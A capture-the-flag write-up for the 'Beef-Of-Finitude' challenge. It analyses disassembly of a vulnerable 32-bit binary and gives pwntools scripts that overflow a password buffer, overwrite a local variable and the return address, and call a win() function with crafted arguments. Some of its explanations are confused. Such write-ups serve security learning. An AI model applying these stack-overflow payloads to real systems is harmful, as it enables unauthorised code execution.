 # Challenge Name: Beef-Of-Finitude

To start off, we see a main function which calls function myFun.
Let's disass function myFun:
```
   0x08049364 <+22>:	mov    DWORD PTR [ebp-0xc],0x7
   0x0804936b <+29>:	sub    esp,0xc
   0x0804936e <+32>:	lea    eax,[ebx-0x1f78]
   0x08049374 <+38>:	push   eax
   0x08049375 <+39>:	call   0x80490d0 <puts@plt>
   0x0804937a <+44>:	add    esp,0x10
   0x0804937d <+47>:	mov    eax,DWORD PTR [ebx-0x8]
   0x08049383 <+53>:	mov    eax,DWORD PTR [eax]
   0x08049385 <+55>:	sub    esp,0x4
   0x08049388 <+58>:	push   eax
   0x08049389 <+59>:	push   0x10
   0x0804938b <+61>:	lea    eax,[ebp-0x1c]
   0x0804938e <+64>:	push   eax
   0x0804938f <+65>:	call   0x80490c0 <fgets@plt>
   0x08049394 <+70>:	add    esp,0x10
   0x08049397 <+73>:	sub    esp,0xc
   0x0804939a <+76>:	lea    eax,[ebx-0x1f66]
   0x080493a0 <+82>:	push   eax
   0x080493a1 <+83>:	call   0x80490d0 <puts@plt>
   0x080493a6 <+88>:	add    esp,0x10
   0x080493a9 <+91>:	mov    eax,DWORD PTR [ebx-0x8]
   0x080493af <+97>:	mov    eax,DWORD PTR [eax]
   0x080493b1 <+99>:	sub    esp,0x4
   0x080493b4 <+102>:	push   eax
   0x080493b5 <+103>:	push   0x150
   0x080493ba <+108>:	lea    eax,[ebp-0x26]
   0x080493bd <+111>:	push   eax
   0x080493be <+112>:	call   0x80490c0 <fgets@plt>
   0x080493c3 <+117>:	add    esp,0x10
   0x080493c6 <+120>:	cmp    DWORD PTR [ebp-0xc],0xdeadbeef
   0x080493cd <+127>:	jne    0x80493ed <myFun+159>
   0x080493cf <+129>:	mov    DWORD PTR [ebx+0x34],0x1
   0x080493d9 <+139>:	sub    esp,0xc
   0x080493dc <+142>:	lea    eax,[ebx-0x1f50]
   0x080493e2 <+148>:	push   eax
   0x080493e3 <+149>:	call   0x80490d0 <puts@plt>
   0x080493e8 <+154>:	add    esp,0x10
   0x080493eb <+157>:	jmp    0x80493ff <myFun+177>
   0x080493ed <+159>:	sub    esp,0xc
   0x080493f0 <+162>:	lea    eax,[ebx-0x1f10]
   0x080493f6 <+168>:	push   eax
   0x080493f7 <+169>:	call   0x80490d0 <puts@plt>
   0x080493fc <+174>:	add    esp,0x10
```   
This functions takes in two inputs (strings), one as name and the other as password. 
An initial variable say var is defined and is equal to 7. i.e var = 0x7 as seen from line 22 in myFun.
The first input and second inputs are 16 bytes long, however, if we look at line 103, we can see a 'push 0x150' command, which suggests that though the size for second input is 16 bytes, its taking 0x150 in total. 
This would mean that there is a chance to overflow the buffer to proceed to line 120, where the var value is compared with 0xdeadbeef and as we know var is stored at ebp-0xc as seen from line 22. 
Hence to satisfy the condition, we need to overflow the password in a way so that, var = 0xdeadbeef. To do that we may use the following code:
```
from pwn import *
r = remote('challenges.ctfd.io', 30027)

r.recvuntil('Enter your Name:')
r.sendline('shravya')

r.recvuntil('Enter your password:')
r.send('B'*26 + p32(0xdeadbeef))
r.interactive()
```
Till here we have just overflown the buffer. This allows us into the shell but however to get the flag we may have to call the win() function. 
The gdb dump for the win() function is:
```
   0x08049240 <+10>:	sub    esp,0x12c                                            ; the stack size defined for win function is 0x12c or 300 bytes, whereas that for password input of myFun was 336 bytes. 
   0x08049246 <+16>:	call   0x8049170 <__x86.get_pc_thunk.bx>                    ; which implies that we can overflow the buffer into yet another function, i.e the win() function. To do so, we will first have to fill the above stack with 336-300 = 36 bytes, since the win function accpets 4 arguments, 
   0x0804924b <+21>:	add    ebx,0x2db5                                           ; 
   0x08049251 <+27>:	mov    ecx,DWORD PTR [ebp+0x8]                              ; the following lines determine the 4 arguments to the win() function,
   0x08049254 <+30>:	mov    DWORD PTR [ebp-0x130],ecx                            ; if ((((param_2 | param_1 ^ 0x14b4da55) == 0) && ((param_3 ^ 0x67616c66 | param_4) == 0)))
   0x0804925a <+36>:	mov    ecx,DWORD PTR [ebp+0xc]                              ; thus param_2 = 0; param_1 = 0x14b4da55 and param_3 = 0; param_4 = 0x67616c66
   0x0804925d <+39>:	mov    DWORD PTR [ebp-0x12c],ecx                            
   0x08049263 <+45>:	mov    ecx,DWORD PTR [ebp+0x10]
   0x08049266 <+48>:	mov    DWORD PTR [ebp-0x138],ecx
   0x0804926c <+54>:	mov    ecx,DWORD PTR [ebp+0x14]
   0x0804926f <+57>:	mov    DWORD PTR [ebp-0x134],ecx
   0x08049275 <+63>:	mov    ecx,DWORD PTR [ebp-0x130]
   0x0804927b <+69>:	xor    ecx,0x14b4da55
   0x08049281 <+75>:	mov    esi,ecx
   0x08049283 <+77>:	mov    ecx,DWORD PTR [ebp-0x12c]
   0x08049289 <+83>:	xor    ch,0x0
   0x0804928c <+86>:	mov    edi,ecx
   0x0804928e <+88>:	mov    ecx,edi
   0x08049290 <+90>:	or     ecx,esi
   0x08049292 <+92>:	test   ecx,ecx
   0x08049294 <+94>:	jne    0x80492c0 <win+138>
   0x08049296 <+96>:	mov    ecx,DWORD PTR [ebp-0x138]
   0x0804929c <+102>:	xor    ecx,0x67616c66
 ```  
 Thus in order to overflow the buffer at the password, and to call the win() function once the right value is compared at ebp-0xc register, we willnhave to:
 - rewrite ebp-0xc with p32(0xdeadbeef) since that is what it is compared with,
 - rewrite the return address stored at eip to that of the win function, 
 - pass arguments of win function, i.e 
 param_1 = p32(0x14b4da55), param_2 = p32(0x0), param_3 = p32(0x67616c66), param_4 = p32(0x0)
   
   ## python program : (cotinuation)
   ```
   from pwn import *
   r = remote('challenges.ctfd.io', 30027)

   r.recvuntil('Enter your Name:')
   r.sendline('hi')

   r.recvuntil('Enter your password:')
   r.sendline('B'*26 + p32(0xdeadbeef) + 'B'*12 + p32(0x0804923a) + p32(0x0804923a) + p32(0x14b4da55) + p32(0x0) + p32(0x67616c66) + p32(0x0))

   r.interactive()
   ```
   ## Flag:
   ```UDCTF{0bl1g4t0ry_buff3r_ov3rflow}```
